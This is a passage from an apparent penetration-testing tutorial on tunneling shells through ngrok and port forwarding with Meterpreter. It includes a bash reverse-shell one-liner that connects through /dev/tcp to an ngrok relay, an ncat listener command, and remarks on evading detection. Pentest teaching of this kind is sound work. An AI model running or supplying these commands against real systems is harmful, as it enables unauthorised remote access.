 ```terminal
Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

It shows an active service ready for connections. Now if I open a reverse shell listener with `ncat -lvnp 9090` and somehow make the remote side execute something like this:

```bash
#!/bin/bash
bash -i >& /dev/tcp/6.tcp.ngrok.io/19199 0>&1
```

It will connect out to the ngrok listener which will forward the TCP connection back to my listener, and voila! I have a shell!

#### Ngrok on the Target

Now of course you can run ngrok on the target server and proxy the same way. Ngrok will happily proxy HTTP, TLS or just raw TCP packets to their servers and allow you to reach whatever you'd like in the same manner. However to do this you should understand the amount of artifacts you will leave behind as a penetration tester. Not only will you need to configure your API key to leave on the target server, but you will leave plenty of eyebrow-raising artifacts behind such as a connection out to `ngrok.io`, a binary which clearly shows a tunnel being built, a web interface running, etc. This is for when you truly don't care how many bells you ring. Ideally not the first method I'd choose, but it remains an option regardless. There's no reason to write out the commands since they would be similar to the previous example so I leave that as a strange exercise to the reader.

### Meterpreter/Metasploit

Ahhhh Metasploit. Anyone in infosec knows this handy suite of tools. Some refer to it as the script-kiddie's toolkit, others consider it an extremely versatile tool for pentesting. I lean on the latter, personally. As with all things in infosec, you should never be content with running a script and not caring how it works. It's always best to learn the reason behind how it works rather than run it and move on. For this instance though, I'm going to focus mostly on the post-exploit stage, where we don't care so much about _how_ we got there, but more _what we do now that we're here_. Even if you exploited without metasploit, shipping up a meterpreter shell to a remote system is certainly worthwhile given the versatility of meterpreter. Not only can you upload and download files trivially without having to do some fancy footwork, but you can also port forward!

Before I go on though, here are some pros and cons:

Pros
: Contains a lot of functionality built-in, not only for port forwarding but other things as well.
: With the proper know-how, can be obfuscated considerably to evade detection.
: Can set up multiple tunnels fairly easily.

Cons
: If you don't know what you're doing, can be easily detected with the proper EDR. Even windows defender has been pretty good at detecting meterpreter.
: Tends to black-box the functionality of everything a bit.
: Can be finnicky sometimes. At least in my experience.

Unfortunately for me however, their port forwarding syntax has always given me problems, so for the sake of my own sanity I'm going to figure it out once and for all and commemorate my discovery with this article. Assuming we have a running meterpreter shell on the target system of `10.10.20.20`, here's how to port forward!
